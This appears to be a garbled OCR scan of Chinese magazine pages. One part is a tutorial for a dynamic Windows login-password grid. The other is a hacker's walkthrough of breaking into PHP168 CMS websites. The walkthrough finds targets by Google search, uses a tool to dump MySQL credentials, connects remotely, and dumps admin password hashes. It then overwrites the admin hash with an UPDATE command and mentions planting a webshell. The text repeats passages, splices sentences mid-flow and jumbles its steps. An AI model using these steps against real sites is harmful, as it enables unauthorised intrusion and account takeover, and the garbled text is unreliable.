
























```

这只是一个抛砖引玉的例子，可能还有更好更高效的解决方法，同时也还有更多细节问题，例如如何获取函数的返回值要怎么获取，这些就都待大家自己去发掘和解决了。

## 一、程序介绍

《西游记》中的孙行者具有七十二变的法术，每遇险阻其总是施展变化之能事，打得众多故事墨头转向。为了保护 Windows 安全，我们通常为其设置登录密码。不过登录密码一旦设定，就处于固定不变的状态，只有您重设密码方止。一旦别人探知了您的密码，您的系统就处于危险状态了。如何让登录密码具有孙大圣的本领，每次启动都会腾挪变化呢？试试 SecureLogin my PC 这款有趣的安全软件吧，它可以让登录密码千变万化，让别人难以捉摸。

## 二、安装与使用

步骤一：安装 SecureLogin my PC。SecureLogin my PC 运行需要 Microsoft .Net Framework 2.0 以上组件的支持，而且其只能为 Windows 2000/XP“效劳”。当其初次运行后，在其主窗口中会列出所有的 Windows 账户，勾选您所需的账户名（本例为“ly-softer”），表示为该其添加动态登录密码功能。之后点击“Ctrl+Alt+Delete”键，SecureLogin my PC 会提示您重新启动系统。
# 安全第一

## 步骤二：熟悉密码盘

之后才可以进入该账户环境中。在 Windows 中点击“Ctrl+Alt+Delete”键，在弹出面板中点击“Activate new card”按钮，进入密码盘向导界面。（图2）

所谓密码盘实际上就是一张表格，其横向排列着 A 到 Z 字母，纵向排列着 1 到 11 数字，（图3）不同的坐标存储着不同的密码字符。该密码盘的特点是动态的，每次显示的内容是不同的。SecureLogin my PC 的运行机制独具特色，它不是记忆密码本身，而是记录您设定的密码排列顺序。这样做的好处是密码可以随机变化，但是其排列顺序固定，从而产生动态的密码。

见，我们设定密码为5位，采用的排列顺序为从锚点开始，向其右侧横向每隔一个坐标点选择一个字符，来组成登录密码。这里选择的坐标点依次为 R6、T6、V6、X6，其对应的字符为“二”、“十”、“y”、“%”，表示我们选择的密码为“g=+y%”。

点击“Next”按钮，在下步窗口中可以看到密码盘内容发生了变化，其锚点变为坐标变为“N7”，对应的字符为“T”。（图4）我们按照之前设定的排列顺序，依次点击 R6、T6、V6、X6 等坐标点，选择“6djc”等字符，组成新的密码“T6djc”。之后点击“Next”按钮，SecureLogin my PC 经过对比两个密码排列规则，发现其完全相同，会弹出密码盘设置成功的消息。当然，这里我们设定的密码排列顺序比较简单，仅仅限于单行中。您完全可以发挥想象，设定不同的更复杂的密码排列顺序。注意，密码长度最少不能低于四位。
## 步骤四：使用随机锚点登录系统

之后当重新启动系统后，您必须在“One Time Password”窗口中选择对应的账户名称（本例为“ly-softer”），随后进入密码盘画面，在其中可以看到随机锚点位置，本例中锚点坐标为 C1，对应的字符为“M”。我们可以按照预设的密码排列顺序，以该锚点为起点，向其右侧横向每隔一个坐标点选择一个字符，其坐标依次为“E1”、“G1”、“J1”、“M1”，组成的密码为“M7gks”。在意如果锚点过于接近密码盘右侧边界，其获取的顺序为到达最后一个坐标点后，从该行最左侧循环，直到选定所需的密码位数为止。您可以直接点击对应坐标点获取密码，不过为了安全起见，您最好在“Password”框中手工输入从密码盘中读取的密码。点击OK按钮，将SecureLogin my PC检测无误后，才可以正常进入系统。如果出错的话……

在上述导界面中可以看到，SecureLogin my PC 可以随机选择起点字符位置，我们不妨将其成为“锚点”。您可以以该锚点为起点，灵活的配置所需的密码排列循序。例如本例中锚点坐标为 N6，其对应的字符为“g”。为了简单起见，我设定密码为5位，采用顺序为单行向右每隔一个坐标点选择一个字符，其坐标依次为 E1、G1、J1、M1，组成的密码字符为“M7gks”。注意，如果锚点过于接近密码盘右侧边界，其选取的顺序为到达最后一个坐标点后，从该行最左侧循环，直到选定所需的密码位数为止。

话，可以刷新密码盘，让您重新选择密码组合。因为这种密码输入机制有效期只有一次，即使别人知道了您本次输入的密码，当其下一次试图进入系统时，照样会被SecureLogin my PC拒绝，因为其不知道您的密码排列规律，无法从密码盘中读取正确的密码。

- 小提示：
1. 如果系统中存在多个账户，您可以按照同样的方法，为不同的账户分别创建不同的密码排列规则，这样各个账户都可以使用其密码盘安全登录系统。
2. 当您希望重新设置密码排列规则时，只需点击“Ctrl+Alt+Delete”键，在弹出面板中点击“Activate new card”按钮，按照上述方法设置新的规则即可。
3. 当您想卸载SecureLogin my PC，必须在其主窗口中取消所有账户的选择状态，将其和所有相关账户解除绑定关系，同时为其分别设定新的登录密码，才可以执行卸载操作。

（文章中涉及的相关软件本期光盘已收录）

# 黑客揭秘脱脱

# PHP168“后台”漏洞利用实录

## 一、利用工具入侵网站

最近又无聊了，于是随便在黑客论坛上转转，看看有没有什么新的漏洞。居然看到一个php168最新0day利用工具，而且帖子说官网也存在这个漏洞。下载完工具，上传杀，访问查看无毒后就开始测试。先来打开利用工具，可以看见主界面，如图1。
既然号称能入侵官网，我就直接点击测试了一下。结果居然成功了，工具显示出了mysql数据库的用户名和密码，并在存放工具的文件夹下生成了一个数据库配置文件，如图2。
## 二、利用数据库入侵网站

在一般的情况下，管理员的用户名就是admin，但是这个也不一定。可以使用工具的下载后台和下载日志来查看管理员的用户名，如图3。可以看到“成功登录，保密字”，管理员的用户名，如图3。
网站的后台地址很简单，如果管理员没有修改的话，直接在网址后面加admin回车就出现了。但是使用数据库的密码去登陆却失败了，这时候就只有想其他办法了。首先我使用telnet网址3306的cmd命令来来确认服务器是否开启3306端口，但mysql数据库的默认端口就是3306。有的服务器的数据库即使允许外部连接，但是限制了ip，这样也是无法连接的。看到可以连接，并且数据库的版本是5.0.81的，如图4。
现在让我们来实际测试一下吧？谷歌搜索Powered by PHP168就可以找到很多网站了。把使用php168 cms的网站的地址替换掉默认的v6.php168.com，然后点击开始就可以看网站的mysql数据库的用户名和密码了。而且这个工具支持批量，在右边的网址就是有漏洞的。

可以连接就会显示我们可以在本地搭建mysql数据库，然后连接远程的数据库查看里面的数据。搭建mysql数据库的方法有很多，这里推荐大家使用搭建php环境的phpnow。

phpnow的安装以后，进入mysql的文件夹中的bin文件夹中去。由于连接远程数据库是在cmd命令下完成的，大家可以在本地搭建mysql数据库，然后连接远程数据库查看里面的数据。搭建mysql数据库的方法有很多，这里推荐大家使用搭建php环境的phpnow。

建一个bat文件，内容为cmd.exe。双击这个bat，就可以打开cmd命令了，而且默认就是在mysql的bin目录下，方便执行mysql的命令。mysql数据库连接远程数据库的语句为：**mysql –u用户名 –p密码 –h网址或者ip地址**，我按照语句输入得到的数据库用户名和密码就成功的登录了，如图5。
先来看看服务器中有些什么数据库，使用mysql命令：**show databases**可以看到在这个用户权限下能访问的数据库的名称，如图6。
我们来进入dbhkhuaya这个数据库，使用mysql命令：**use dbhkhuaya**就可以了。可以看到有回显database changed，说明现在我们就可以使用mysql的命令来查看这个数据库里面的内容，如图7。
现在来看看这个数据库有哪些表，使用mysql命令：**show tables**如果看到有members这个表，基本就可以判断里面有管理员的用户名和密码了，如图8。
接下来我们来查看下可能有管理员信息的表的结构，使用mysql的命令：**describe p8_members**可以看到有uid、username、password，如图9。
来查看有哪些用户名（在渗透其它网站时候也可以使用到连接远程数据库的方法，所以可能不知道用户名），使用的mysql命令为：**select username from p8_members order by uid**可以看到members里面全部的用户名，如图10。这个命令的意思是以uid的顺序来列出username的内容，如果数据比较多的话就用：**select username from**

p8_members order by uid limit 0,30 只列出前30个用户的根目录的htdocs文件夹了，用浏览器访问 http://127.0.0.1/webshell.php，如图14。名。管理员肯定是uid第一的，这样就得到了管理员的用户名。

最重要的时候来了，我们来查看管理员的密码，使用mysql命令：select password from p8_members order by uid，可以看到32位md5加密的管理员密码，如图11。复制cmd命令里面的内容很简单，右键点击标记选中密码，直接回车就复制下来了。

```
mysql> select password from p8_members order by uid
password
52b15c6ad4c010f5924121e59bcc2d73f
d1bacc3949ba59abbe56e057f20f883e
c1bacc3949ba59abbe56e057f20f883e
8f98a78845a65b41faccc492b6c09728
1297f44b13955236245b24973994?a?3
c1bacc3949ba59abbe56e057f20f883e
872b2143c11b1956bf914d11cfd573fc
f2a5f2627135a246c2609797ba6c?5e3
3a8f7a6f0b9b51ff074a5154d627779c1
96c79218965ab72c92a549dd5a330112
10 rows in set (0.06 sec)




```
兴奋地拿到的md5站夫解密，结果都查不到。难道要自己去暴力破解？当然不要那么麻烦，我们直接替换掉管理员的密码就可以了。随便md5加密一个简单的密码，这里我使用的是123456，然后利用mysql命令：

```
update p8_members set password = 'e10adc3949ba59abbe56e057f20f883e' where username = 'hkhuaya'











```

就可以替换管理员的密码为123456了，当然别忘记改回来，如图12。现在就可以来登录后台了，很简单的就登录成功了，如图13。php168后台拿webshell的方法有很多，这里就不多说了。
点击MySQL Manager，把dbhost填上网址或者IP，dbuser和dbpass填上mysql数据库的用户名和密码，点击连接。进入数据库以后，直接选择表名就可以看到表里的内容了。而且点击Edit就可以编辑里面的内容，很简单的就可以修改和替换管理员的密码了，如图16。编辑password里面的内容，点击update就可以修改管理员密码了。这个入侵过程太简单了，可以看出工具的确可以方便不少。但是显然这种方式缺乏实战性，使用工具体会不到的。
肯定有人会说这也太麻烦了，有没有简单的方法。当然有的，但是在cmd下敲击命令来入侵不是很有黑客的感觉吗。好，现在来介绍简单的方法。之前如果利用phpnow来安装mysql数据库的人这里就不用再安装php环境了，方法就是利用php的webshell来连接远程的数据库（如果你手头有其它php网站的webshell也可以）。把webshell放到phpnow里，进入数据库以后直接选择表名就可以看到表里的内容了。

### 二、对工具的简单分析

